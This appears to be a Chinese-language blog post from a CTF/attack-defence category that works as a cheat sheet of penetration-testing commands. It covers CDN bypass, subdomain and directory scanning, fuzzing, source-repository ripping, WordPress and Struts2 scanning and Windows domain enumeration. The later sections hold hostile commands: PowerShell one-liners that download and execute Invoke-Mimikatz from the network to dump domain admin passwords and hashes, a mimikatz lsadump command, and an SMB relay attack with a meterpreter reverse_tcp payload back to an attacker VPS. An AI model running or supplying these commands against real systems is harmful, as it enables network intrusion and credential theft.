 ```yaml
---
layout: post
title: "渗透入侵常用工具"
date: 2019-07-18 17:12:09 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 信息搜集

#### [绕过CDN查找真实IP](https://www.cnblogs.com/qiudabai/p/9763739.html，https://zhuanlan.zhihu.com/p/30114049，https://blog.0day.rocks/securing-a-web-hidden-service-89d935ba1c1d)

- 查询历史DNS记录：[SecurityTrails](https://securitytrails.com/)，[viewdns](https://viewdns.info)
- 查询子域名：[Dnsdb](https://dnsdb.io/)，[crtsh](https://crt.sh/)，[spyse](https://spyse.com/)，`Google site:target.com -www`
- 利用SSL证书：原理：通过IP直连443端口，会暴露SSL证书，遍历0.0.0.0/0，即整个互联网，一旦找到相同的SSL证书，即找到隐藏在CDN后的IP。[Censys](https://censys.io/)实现对整个互联网的扫描，搜索参数：`parsed.names: target.com and tags.raw: trusted`，然后查找使用这些证书的IP：Explore -> What's using this certificate? -> IPv4 Hosts。对于暗网网站，只需将`SHA1 fingerprint`（签名证书的sha1值）粘贴到Censys IPv4主机搜索中，即可找到证书，然后同理查找使用这个证书的IP。
- 利用特征HTTP标头：Censys搜索参数：`80.http.get.headers.server:cloudflare`
- 利用特征HTTP内容：Censys搜索参数：`80.http.get.body：参数`；[Shadon](https://www.shodan.io)搜索参数：`https://www.shodan.io/search?query=http.html%3AUA-32023260-1`
- RSS邮件订阅，网站如果自带sendmail，通过其发送的邮件源码中查找IP
- Zmap扫描：首先从APNIC（Asia-Pacific Network Information Center，亚太互联网络信息中心）获取IP段，然后使用Zmap的banner-grab扫描出来80端口开放的主机进行banner抓取，最后在http-req文件中的 Host写target.com。
- F5 LTM：服务器如果使用F5 LTM，通过`Set-Cookie: BIGipServerpool_8.29_8030=487098378.24095.0000`，第一小节的十进制数`487098378`转为十六进制数`1d08880a`，从后往前解析即为IP：`0a.88.08.1d（10.136.8.29）`
- 利用报错信息或其他访问功能，如上传头像是提供一个url供目标网站下载，则放置头像的访问记录中会记录目标网站的真实IP
- 针对cloudflare：[crimeflare](http://www.crimeflare.com/)，`ping direct-target.com`

#### 基本信息搜集

```
theharvester -d target.com -b bing,google -h -p
```

#### 后台查询

[Breacher](https://github.com/s0md3v/Breacher)：`python breacher.py -u example.com --type php`

[cangibrina](https://github.com/fnk0c/cangibrina)：`python cangibrina.py -u facebook.com --ext php`

[dirsearch](https://github.com/maurosoria/dirsearch)：`python3 dirsearch.py -e php -u example.com --exclude-status 403,401`

#### 旁站查询

[Reverse IP Domain Check](https://www.yougetsignal.com/tools/web-sites-on-web-server/)

#### DNS查询

[who.is](https://who.is)

godaddy.com

[DNSdumpster](https://dnsdumpster.com/ )

```shell
whois xxx.edu.cn
dig +short xxx.edu.cn
dig -x 10.10.10.10
dnsrecon -d xxx.edu.cn
```

#### [子域名扫描](https://blog.csdn.net/w1590191166/article/details/104160404)

[Find Subdomain](https://findsubdomains.com/)

###### [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)

```
D:\ctf\tools\gather\subDomainsBrute>python subDomainsBrute.py qq.com --full
```

#### 目录扫描

dirb

dirsearch

#### FUZZ扫描器

###### [wfuzz](https://github.com/xmendez/wfuzz)

```powershell
C:\Users\tyler>wfuzz -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\extensions_common.txt --hc 404 http://testphp.vulnweb.com/FUZZ/FUZ2ZFUZ3Z #FUZZ url（FUZnZ，其中n代表了payload的序号）
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ #FUZZ参数
```

[ffuf](https://github.com/ffuf/ffuf)

```
ffuf -c -w /mnt/hgfs/ctf/tools/password/OneListForAll/onelistforall.txt -u [target.com]/FUZZ
```

#### 密码字典

[fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

[SecLists](https://github.com/danielmiessler/SecLists)

社工密码字典生成工具[Cupp](https://github.com/Mebus/cupp)

爬行网站获取关键信息创建密码字典工具[cewl](http://digi.ninja/projects/cewl.php)

#### Web环境识别

在线平台：[bugscaner](http://whatweb.bugscaner.com/)，[云悉](https://www.yunsee.cn/)

```sh
$ whatweb -v xxx.edu.cn
```

#### 设备/服务组件搜索

国内：[钟馗之眼](https://www.zoomeye.org/)，[fofa](https://www.jianshu.com/p/5101869a4947)

国外：[撒旦](https://www.shodan.io)

#### 源码泄露

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```
#ignore SSL certification verification (with -s)
rip-git.pl -v -u http://www.example.com/.git/
rip-hg.pl -v -u http://www.example.com/.hg/
rip-bzr.pl -v -u http://www.example.com/.bzr/
rip-svn.pl -v -u http://www.example.com/.svn/
rip-cvs.pl -v -u http://www.example.com/CVS/
```

## 漏洞扫描

```shell
nikto -h xxx.edu.cn -output ./result.html -Format htm
/mnt/hgfs/ctf/tools/exploit/w3af/w3af_gui #https://github.com/andresriancho/w3af
D:\ctf\tools\exploit\xray_windows_amd64\xray_windows_amd64.exe webscan --basic-crawler "target.com" --text-output out.txt #https://github.com/chaitin/xray
```

#### WordPress漏洞扫描

```shell
wpscan --url target.com -e vp,ap,p,vt,at,t,u --passwords /root/wordlist.txt -t 50 --api-token xxxxxxxxxxxxxxxxxxx

#token
https://wpvulndb.com/users/edit

apt remove wpscan
apt install zlib1g-dev
gem install wpscan #install wpscan
```

#### Structs2漏洞扫描

```
#https://github.com/Lucifer1993/struts-scan
python structs-scan.py http://target.com/struts2%2Dshowcase/actionChain.action #扫描
python structs-scan.py -u http://target.com -i struts2-048 #攻击
```

## 内网渗透

#### 域信息搜集

```powershell
>net user /domain #查询所有域用户
>net view /domain #查看有几个域
>net view /domain:XXX #查看域内的主机
>net group /domain #查看域里面的组
>net share #查看共享文件夹

>net group "domain computers" #domain：查看域内所有的主机名
>dsquery server #查询域控制器主机名
"CN=WIN-KMZ8MFWF5L8,CN=Servers,..."
>net group "domain controllers" /domain
WIN-KMZ8MFWF5L8$ #去掉结尾$符号
>ping WIN-KMZ8MFWF5L8 #查询域控制器IP
>net group "domain admins" /domain #查询域管理员用户名
```

#### 提取系统信息

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz DumpCerts #查询域管理员密码
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Get-PassHashes #查询域管理员密码hash

mimikatz log "privilege::debug" "lsadump::lsa /patch" #获取域控制器上所有用户的hash
```

#### [impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

###### [smbrelayx](https://blog.csdn.net/qq_36374896/article/details/84593467)

```sh
#run on attack vps
pip install impacket
nmap -sT -p 445 --open --script smb-security-mode.nse,smb-os-discovery.nse 192.168.91.0/24 #扫描未开启smb签名的机器:message_signing: disabled(dangerous, but default)
smbrelayx.py -h target_ip -c "calc.exe"

或者直接用MSF的smb_relay模块代替：
msfconsole
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set lhost attack_vps
set smbhost target_ip
run
#其他机器使用和target_ip相同权限访问攻击机，攻击机可以获取hash，并且触发目标机器执行命令
net use \\attack_vps/user:"Administrator" "ABCabc123"
```

